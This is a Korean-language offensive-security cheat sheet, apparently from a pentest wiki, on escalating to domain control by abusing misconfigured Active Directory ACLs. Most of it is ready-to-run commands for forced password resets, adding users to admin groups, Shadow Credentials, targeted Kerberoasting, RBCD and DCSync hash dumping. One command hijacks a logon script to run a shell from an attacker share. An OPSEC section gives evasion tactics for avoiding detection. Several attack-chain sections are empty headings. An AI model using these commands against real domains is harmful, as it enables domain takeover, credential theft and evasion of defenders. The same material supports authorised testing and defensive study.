



# AD DACL Abuse

AD object 의 DACL 에 잘못 붙은 위임 권한을 흘린 다음 밀어붙이면서 도메인 권한을 올려가는 기법.

진입 지점은 보통 생키는 형광들 — GenericAll / GenericWrite / WriteDACL / WriteOwner / ForceChangePassword / AddMember / AllExtendedRights. BloodHound 까지 돌리면 그래프가 기상천외로 나오는 이유가 대부분 여기다.

---

## 사전 작업

### BloodHound 수집

```bash
# 리눅스 (BloodHound CE / Python collector)
bloodhound-python -u <user> -p '<pass>' -d <domain> -dc <dc_fqdn> -c All --zip
bloodhound-python -u <user> -p '<pass>' -d <domain> -dc <dc_fqdn> -c All --kerberos

# AzureHound / SharpHound (Windows)
SharpHound.exe -c All --zipfilename loot.zip
SharpHound.exe -c DCOnly --stealth          # OPSEC 우선 (LDAP만 사용)

# nxc 모듈
nxc ldap <dc_ip> -u <user> -p '<pass>' --bloodhound --collection All --dns-server <dc_ip>
```

### 빠른 권한 점검 (BloodHound 없이)

```bash
# 내가 가진 모든 ACE
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  get writable --detail

# 특정 객체에 대한 권한 확인
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  get object <target> --attr nTSecurityDescriptor --resolve-sd

# Impacket
impacket-dacledit -action 'read' -principal '<user>' \
  -target-dn 'CN=<target>,...' '<domain>/<user>:<pass>' -dc-ip <dc_ip>

# PowerView (Windows)
Get-DomainObjectAcl -Identity <target> -ResolveGUIDs |
  Where-Object {$_.SecurityIdentifier -match (Get-DomainUser <user>).objectsid}
```

---

## 권한별 악용 방법

### GenericAll

대상 객체에 대한 완전 제어. 객체 종류에 따라 활용이 갈린다.

| 대상 | 활용 |
|------|------|
| User | ForceChangePassword, Targeted Kerberoasting, Shadow Credentials |
| Group | AddMember |
| Computer | RBCD, Shadow Credentials, LAPS 읽기 |
| Domain | DCSync 권한 부여 (WriteDACL 경유) |

```bash
# 사용자: password 강제 변경
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  set password <target_user> '<new_pass>'

# 그룹: 멤버 추가
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  add groupMember '<group>' '<user>'

# 컴퓨터: RBCD
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  add rbcd <target_computer> <controlled_computer>
```

### GenericWrite

객체의 속성(`servicePrincipalName`, `msDS-KeyCredentialLink`, `scriptPath`, `userAccountControl` 등) 을 수정.

```bash
# Targeted Kerberoasting (User에 SPN 추가 → hash 요청 → 정리)
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  set object <target_user> servicePrincipalName -v 'HTTP/fake.<domain>'
impacket-GetUserSPNs '<domain>/<user>:<pass>' -dc-ip <dc_ip> -request \
  -outputfile kerberoast.txt
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  set object <target_user> servicePrincipalName        # 정리

# Shadow Credentials (User/Computer)
certipy shadow auto -u <user>@<domain> -p '<pass>' -account <target>

# 로그온 스크립트 하이재킹
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  set object <target_user> scriptPath -v '\\<attacker>\share\shell.bat'
```

### WriteDACL

ACL 자체를 수정. 가장 강력. 자기 자신에게 GenericAll 또는 도메인 객체에 DCSync 권한을 부여.

```bash
# 자신에게 GenericAll 부여
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  add genericAll <target_object> <user>

# 도메인 객체에 DCSync 권한 부여 (DS-Replication-Get-Changes-All)
impacket-dacledit -action write -rights DCSync \
  -principal <user> -target-dn 'DC=<domain>,DC=<tld>' \
  '<domain>/<user>:<pass>' -dc-ip <dc_ip>

# DCSync 실행
impacket-secretsdump '<domain>/<user>:<pass>@<dc_ip>'
```

### WriteOwner

소유자 변경 → 자동으로 WriteDACL 획득 → GenericAll 부여 흐름.

```bash
# 소유자 변경
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  set owner <target_object> <user>

# Impacket
impacket-owneredit -action write -new-owner '<user>' \
  -target '<target_object>' '<domain>/<user>:<pass>' -dc-ip <dc_ip>

# 이후 WriteDACL → GenericAll 부여 → 객체 종류별 공격 진행
```

### ForceChangePassword

User-Force-Change-Password 확장 권한. 현재 비밀번호 없이 변경.

```bash
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  set password <target_user> '<new_pass>'

rpcclient -U "<domain>/<user>%<pass>" <dc_ip> \
  -c 'setuserinfo2 <target_user> 23 <new_pass>'

net rpc password <target_user> '<new_pass>' \
  -U "<domain>/<user>%<pass>" -S <dc_ip>
```

!!! warning "OPSEC"
    password 강제 변경은 매우 시끄럽다. 사용자가 로그인 못하게 되어 즉시 발견될 가능성이 높음. **Shadow Credentials** 또는 **Targeted Kerberoasting** 이 가능하면 우선 시도.

### AddMember (Self / All-Member)

```bash
# Self-Membership 권한이 있는 그룹
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  add groupMember '<group>' '<user>'

# 정리
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  remove groupMember '<group>' '<user>'

# net rpc
net rpc group addmem "<group>" "<user>" \
  -U "<domain>/<user>%<pass>" -S <dc_ip>
```

자주 노리는 그룹: `Domain Admins`, `Enterprise Admins`, `Account Operators`, `Backup Operators`, `Server Operators`, `Schema Admins`, `DnsAdmins`, `Exchange Windows Permissions`, `Exchange Trusted Subsystem`.

### AllExtendedRights

모든 확장 권한 (`User-Force-Change-Password`, `DS-Replication-Get-Changes`, `Read-LAPS-Password` 등).

```bash
# LAPS password 읽기 (Legacy ms-MCS-AdmPwd)
nxc ldap <dc_ip> -u <user> -p '<pass>' -M laps
bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  get object <computer> --attr ms-MCS-AdmPwd

# Windows LAPS (msLAPS-EncryptedPassword / msLAPS-Password)
nxc ldap <dc_ip> -u <user> -p '<pass>' -M laps
```

### ReadGMSAPassword

```bash
nxc ldap <dc_ip> -u <user> -p '<pass>' --gmsa
gMSADumper.py -u <user> -p '<pass>' -d <domain>
```

---

## DCSync (DS-Replication-Get-Changes / -All)

도메인 컨트롤러처럼 행동해 모든 사용자 NT hash를 복제 받는 공격.

```bash
# 권한이 이미 있을 때
impacket-secretsdump '<domain>/<user>:<pass>@<dc_ip>'
impacket-secretsdump -hashes :<nthash> '<domain>/<user>@<dc_ip>'
impacket-secretsdump -k -no-pass '<domain>/<user>@<dc_fqdn>'

# 특정 사용자만
impacket-secretsdump '<domain>/<user>:<pass>@<dc_ip>' -just-dc-user krbtgt
impacket-secretsdump '<domain>/<user>:<pass>@<dc_ip>' -just-dc-user 'DOMAIN\Administrator'

# Mimikatz (Windows)
lsadump::dcsync /domain:<domain> /user:krbtgt
```

기본적으로 `Domain Admins`, `Enterprise Admins`, `Administrators`, `Domain Controllers` 만 가능. WriteDACL 로 일반 사용자에게도 부여 가능.

---

## 공격 체인 예시

### Group → Domain Admin



### User → DCSync



### Computer → RBCD → Local Admin



---

## 정리 (Cleanup)

DACL 변경 / 그룹 추가 / SPN 추가 등은 모두 가역적이다. 작업 종료 후 원상복구 필수.

```bash
# 추가한 멤버 제거
bloodyAD ... remove groupMember '<group>' '<user>'

# 추가한 SPN 제거
bloodyAD ... set object <target_user> servicePrincipalName

# 부여한 ACE 제거
bloodyAD ... remove genericAll <target> <user>
impacket-dacledit -action remove -rights DCSync ...

# Shadow Credentials 정리
certipy shadow auto -account <target> -clear ...
```

---

## OPSEC 노트

- ACL 변경 이벤트: `4662` (Object Access), `5136` (Directory Service Changes), `4670` (Permissions changed). DC SACL 이 켜져 있으면 모두 기록됨
- 멤버 추가: `4728` / `4732` / `4756` (Security/Distribution group)
- password 강제 변경: `4724` (Admin reset)
- Kerberoasting 요청: `4769` (Service Ticket Request, 주로 RC4 + 비표준 SPN)
- DCSync: `4662` 에 `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (DS-Replication-Get-Changes) GUID 포함

탐지 회피를 위해:

1. **시간 분산**: 수정 → exploit → 복구 사이에 의도적 지연
2. **권한 부여보다 일회성 사용**: 가능하면 ForceChangePassword 보다 Shadow Credentials, AddMember 보다 Targeted Kerberoasting 우선
3. **non-DC 경유 작업 금지**: ACL 변경은 결국 DC 에 기록됨

---

## 참고

- [BloodHound 엣지 정리](https://bloodhound.specterops.io/resources/edges)
- [PowerView 함수 인덱스](https://powersploit.readthedocs.io/en/latest/Recon/)
- 관련 페이지: [AD 환경 공격](ad-environment.md), [ADCS](adcs.md), [권한 상승](../lifecycle/privilege-escalation.md), [credential 탈취](../lifecycle/credential-access.md)
